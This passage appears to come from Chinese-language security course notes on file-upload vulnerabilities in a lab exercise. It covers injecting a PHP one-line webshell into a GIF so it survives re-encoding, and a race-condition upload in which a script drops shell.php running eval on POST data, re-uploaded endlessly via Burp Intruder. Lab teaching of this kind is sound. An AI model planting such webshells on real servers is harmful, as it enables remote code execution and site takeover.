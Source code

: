 先用 Hex Friend 打开，在尾部添加一句话木马 `<?php phpinfo(); ?>`：

![](http://img.wukaipeng.com/2023/10/25-065615-image-20231025065614989.png)

我们下载上传后的图片，也用 Hex  Friend 打开，可以看下末尾，一句话木马已经被删除掉了。接着我们使用 Hex Friend 的对比功能：

![](http://img.wukaipeng.com/2023/10/25-065749-image-20231025065748851.png)



在查看对比的时候，可以看到只有后面大部分基本全部被改动过，只有前面部分改动比较小：

![](http://img.wukaipeng.com/2023/10/25-065930-image-20231025065930441.png)

![](http://img.wukaipeng.com/2023/10/25-070029-image-20231025070029644.png)

因此我们可以在前面部分插入一句话木马：

![](http://img.wukaipeng.com/2023/10/25-070316-image-20231025070316462.png)

然后重新上传，可以看到我们的一句话木马已经注入成功了。

> 如果没有成功的话，要多试几次
>
> 需要我这一张插入木马成功的 GIF 图，可以从这个地址下载：[⬇️ freedom gif](https://github.com/Penggeor/NetSecurity/blob/main/%E7%AC%AC%2009%20%E5%91%A8/%E8%AF%BE%E4%BB%B6/free%20freedom%20copy.gif) 

![](http://img.wukaipeng.com/2023/10/25-070405-image-20231025070404857.png)



### 文件包含绕过



## 服务端 - 代码逻辑（条件竞争）

**条件竞争**：服务端代码逻辑漏洞，导致资源没有正确被处理。比如并发的时候没有正确的加锁，导致多个线程同时访问

在 pass-18 中，文件是先上传再校验，因为可以利用上传到校验之间的空隙来执行木马。

先写一个 `cs.php` 脚本，脚本内容为生成一个 `shell.php` 文件，内容为 `<?php @eval($_POST["test"])?>`：

```php
<?php fputs(fopen('shell.php','w'), '<?php @eval($_POST["test"])?>');?>
```

上传 `cs.php`，用 Burp 拦截，并发送到 Intruder，然后在末尾加个空格，以此空格然后点击 `Add §` 按钮，生成一个「空格 Payload」：

![](http://img.wukaipeng.com/2023/10/25-080506-image-20231025080506730.png)

Payload type 选择「Null Payloads」，Payload settings 设置为「Continue indefinitely」，这样就能无限发送上传 `cs.php` 文件了：

![](http://img.wukaipeng.com/2023/10/25-081125-image-20231025081124979.png)

![](http://img.wukaipeng.com/2023/10/25-082843-image-20231025082843306.png)
